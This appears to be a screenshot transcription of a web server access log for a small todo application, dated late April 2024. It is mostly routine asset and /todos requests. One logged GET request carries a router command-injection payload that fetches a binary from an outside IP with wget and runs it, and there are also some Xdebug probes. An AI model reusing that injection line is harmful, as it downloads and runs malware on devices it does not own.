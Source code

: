  INFO  Accepting connections at http://0.0.0.0:80
 HTTP  4/25/2024 10:39:26 PM 10.224.0.4 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 10:39:26 PM 10.224.0.4 Returned 200 in 13 ms
 HTTP  4/25/2024 10:42:52 PM 10.244.0.4 GET /?XDEBUG_SESSION_START=phpstorm
 HTTP  4/25/2024 10:42:52 PM 10.244.0.4 Returned 200 in 3 ms
 HTTP  4/25/2024 10:47:58 PM 10.244.1.45 GET /?XDEBUG_SESSION_START=phpstorm
 HTTP  4/25/2024 10:47:58 PM 10.244.1.45 Returned 200 in 1 ms
 HTTP  4/25/2024 10:55:23 PM 10.224.0.4 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 10:55:23 PM 10.224.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 GET /
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 GET /static/css/2.7f1403ef.chunk.css
 HTTP  4/25/2024 11:10:05 PM 10.224.0.4 Returned 200 in 2 ms
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 GET /static/js/main.33b570de.chunk.js
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 GET /favicon.ico
 HTTP  4/25/2024 11:10:05 PM 10.244.1.1 Returned 200 in 2 ms
 HTTP  4/25/2024 11:12:22 PM 10.224.0.5 GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(cd+%2Ftmp%3B+rm+-rf+shk%3B+wget+http%3A%2F%2F103.163.214.97%2Fshk%3B+chmod+777+shk%3B+.%2Fshk+tplink%3B+rm+-rf+shk)
 HTTP  4/25/2024 11:12:22 PM 10.224.0.5 Returned 200 in 1 ms
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 GET /static/css/main.5231334a.chunk.css
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 GET /static/js/2.e988248f.chunk.js
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 Returned 200 in 2 ms
 HTTP  4/25/2024 11:19:20 PM 10.224.0.5 GET /static/js/main.33b570de.chunk.js
 HTTP  4/25/2024 11:19:20 PM 10.224.0.5 Returned 200 in 2 ms
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 GET /todos
 HTTP  4/25/2024 11:19:20 PM 10.244.1.1 Returned 200 in 1 ms
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 POST /todos/add
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 GET /todos
 HTTP  4/25/2024 11:26:27 PM 10.224.0.4 Returned 200 in 0 ms
 HTTP  4/25/2024 11:29:24 PM 10.244.0.4 GET /todos/
 HTTP  4/25/2024 11:29:24 PM 10.244.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:35:15 PM 10.244.0.4 GET /todos/
 HTTP  4/25/2024 11:35:15 PM 10.244.0.4 Returned 200 in 1 ms
 HTTP  4/25/2024 11:44:52 PM 10.244.1.1 GET /todos
 HTTP  4/25/2024 11:44:52 PM 10.244.1.1 Returned 304 in 1 ms
 HTTP  4/25/2024 11:49:07 PM 10.244.2.65 GET /todos/
 HTTP  4/25/2024 11:49:07 PM 10.244.2.65 Returned 200 in 1 ms
 HTTP  4/25/2024 11:52:33 PM 10.244.2.65 GET /todos/
 HTTP  4/25/2024 11:52:33 PM 10.244.2.65 Returned 200 in 1 ms
 HTTP  4/25/2024 11:57:53 PM 10.244.2.65 GET /todos/
 HTTP  4/25/2024 11:57:53 PM 10.244.2.65 Returned 200 in 1 ms
 HTTP  4/26/2024 12:02:58 AM 10.244.0.4 GET /todos/
 HTTP  4/26/2024 12:02:58 AM 10.244.0.4 Returned 200 in 1 ms
 HTTP  4/26/2024 12:11:23 AM 10.244.0.4 GET /todos/
 HTTP  4/26/2024 12:11:23 AM 10.244.0.4 Returned 200 in 1 ms
